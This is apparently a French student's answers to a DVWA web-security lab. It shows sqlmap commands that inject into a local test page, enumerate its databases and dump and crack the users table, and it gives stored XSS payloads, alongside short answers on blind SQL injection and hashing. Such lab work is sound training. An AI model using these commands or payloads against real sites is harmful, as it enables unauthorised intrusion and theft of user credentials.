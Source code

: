 On essaie d'attaquer la base avec la connection effectuée avec le navigateur

`sqlmap --headers="User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.75 Safari/537.36" --cookie="Cookie: security_level=0; PHPSESSID=ef3l52t54j9vv58hfiipk9oui7; security=low" -u 'http://localhost/vulnerabilities/sqli/?id=1-BR&Submit=Submit#' --level=5 risk=3 -p id`

On a réussi et maintenant on cherche les bases de données existantes

`sqlmap --headers="User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.75 Safari/537.36" --cookie="Cookie: security_level=0; PHPSESSID=ef3l52t54j9vv58hfiipk9oui7; security=low" -u 'http://localhost/vulnerabilities/sqli/?id=1-BR&Submit=Submit#' --level=5 risk=3 -p id --dbs`

On cible une base de donnée et on liste ses tables

`sqlmap --headers="User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.75 Safari/537.36" --cookie="Cookie: security_level=0; PHPSESSID=ef3l52t54j9vv58hfiipk9oui7; security=low" -u 'http://localhost/vulnerabilities/sqli/?id=1-BR&Submit=Submit#' --level=5 risk=3 -p id -D dvwa --tables`

Et maintenant on dump la table users et merci sqlmap , il nous unHash les mots de passes   

`sqlmap --headers="User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.75 Safari/537.36" --cookie="Cookie: security_level=0; PHPSESSID=ef3l52t54j9vv58hfiipk9oui7; security=low" -u 'http://localhost/vulnerabilities/sqli/?id=1-BR&Submit=Submit#' --level=5 risk=3 -p id -D dvwa -T users --dump`


L'injection SQL aveugle est presque identique à l'injection SQL normale, la seule différence étant la façon dont les données sont extraites de la base de données. Lorsque la base de données ne fournit pas de données à la page Web, un attaquant est forcé de voler des données en posant à la base de données une série de questions vraies ou fausses. Cela rend l'exploitation de la vulnérabilité d'injection SQL plus difficile, mais pas impossible. .

## Question 7
`<style> body{background:red !important;}</style>
<script> alert('coucou') </script>`
Il faut escape les caractère spéciaux.


## Question 8
On ajoute ceci dans le message :
`<link href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">`

C'est plus impactant car c'est stocké en base de donnée et donc n'importe quelle prochain utilisateur va donc charger les scripts importés.

## Question 9
C'est l'aeroport de Denver.
https://fr.wikipedia.org/wiki/A%C3%A9roport_international_de_Denver

## Question 10
Chiffer -> reversible
Hasher -> irreversible
Le salt sert à rendre plus difficile le reverse
